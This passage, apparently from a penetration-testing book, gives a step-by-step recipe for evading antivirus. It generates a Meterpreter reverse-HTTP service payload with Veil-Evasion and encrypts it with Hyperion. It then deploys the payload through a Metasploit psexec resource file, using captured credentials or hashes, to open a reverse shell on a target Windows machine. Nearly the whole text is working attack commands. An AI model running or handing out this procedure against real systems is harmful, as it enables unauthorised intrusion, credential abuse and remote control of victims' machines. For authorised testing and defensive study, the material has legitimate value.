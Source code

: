 {icon=bomb}
G> ## The Play
G>
G> Start Veil-Evasion:  
G> `cd /opt/Veil/Veil-Evasion/ && ./Veil-Evasion.py`
G>
G> List the available payloads to encrypt:  
G> `list`
G>
G> Choose a service because we are going to use `psexec` to install it on the targets box and we want to open a reverse shell:  
G> `use 4`  
G> That is `c/meterpreter/rev_http_service`
G>
G> Set any options here:  
G> `set lhost <IP address that we are going to be listening on for the reverse shell>`  
G>
G> Generate the initial payload:  
G> `generate`
G>
G> Give it a name. I just selected the default of "payload".  
G> [Enter]  
G> Exit out of Veil-Evasion.
G>
G> `/usr/share/veil-output/compiled/payload[n].exe` needs to be encrypted with hyperion, either on a Windows box or Linux with Wine.  
G> hyperion encrypts with a weak 128-bit AES key, which decrypts itself by brute force at the time of execution. The command to run is:  
G> `hyperion.exe -v payload.exe encrypted-payload.exe`  
G> We then put the encrypted payload somewhere where Metasploit can access it:  
G> I just copied it back to `/usr/share/veil-output/compiled/encrypted-payload.exe`  
G> We then tell Metasploit where we have put it.  
G> I created a Metasploit resource file:  
G> `cat ~/demo.rc`
G>
G> `use exploit/windows/smb/psexec`  
G> `set payload windows/meterpreter/reverse_http`  
G> `set lport 8080`  
G> `set lhost <IP address that we are going to be listening on for the reverse shell>`  
G> `set rhost <IP address of target>`  
G> `set exe::custom /usr/share/veil-output/compiled/encrypted-payload.exe`  
G> `set smbuser <target username>`  
G> `set` [`smbpass`](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md#options) <target password or hash>  
G> `run`
G>
G> The IP addresses and ports need to be the same as you specified in the creating of the payload using Veil-Evasion.

{icon=bomb}
G> Now we have got the credentials from a previous exploit. There are many techniques and tools to help capture these, whether you have physical access or not. We just need the username & password or hash which is transmitted across the network for all to see. Also easily obtainable if you have physical access to the machine.
G>
G> We now run msfconsole with the resource file as parameter:  
G> `msfconsole -r ~/demo.rc`  
G> and that is enough to evade AV and get our reverse shell.
G>
G> `sessions` will show you the active sessions you have.  
G> To interact with the first one:  
G> `sessions -i 1`
G>